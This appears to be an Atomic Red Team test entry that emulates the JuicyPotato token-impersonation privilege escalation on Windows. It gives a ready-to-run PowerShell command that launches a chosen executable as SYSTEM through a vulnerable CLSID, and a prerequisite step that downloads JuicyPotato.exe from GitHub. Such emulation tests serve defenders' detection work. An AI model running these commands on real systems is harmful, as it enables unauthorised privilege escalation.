 
**auto_generated_guid:** f095e373-b936-4eb4-8d22-f47ccbfbe64a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| potato_path | Path to the JuicyPotato.exe file | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;JuicyPotato.exe|
| listening_port | COM server listen port | integer | 7777|
| target_exe | Target executable to launch with system privileges | path | $env:windir&#92;system32&#92;notepad.exe|
| target_CLSID | Vulnerable CLSID to impersonate privileges | string | {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cmd /c '#{potato_path}' -l '#{listening_port}' -t * -p '#{target_exe}' -c '#{target_CLSID}'
```

#### Cleanup Commands:
```powershell
get-ciminstance Win32_Process | where-object { $_.Path -eq "#{target_exe}" } | invoke-cimmethod -methodname "terminate" | out-null
get-ciminstance Win32_Process | where-object { $_.Path -eq "#{potato_path}" } | invoke-cimmethod -methodname "terminate" | out-null
```



#### Dependencies:  Run with `powershell`!
##### Description: JuicyPotato.exe must exist on disk
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\JuicyPotato.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\JuicyPotato.exe" "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
```




<br/>
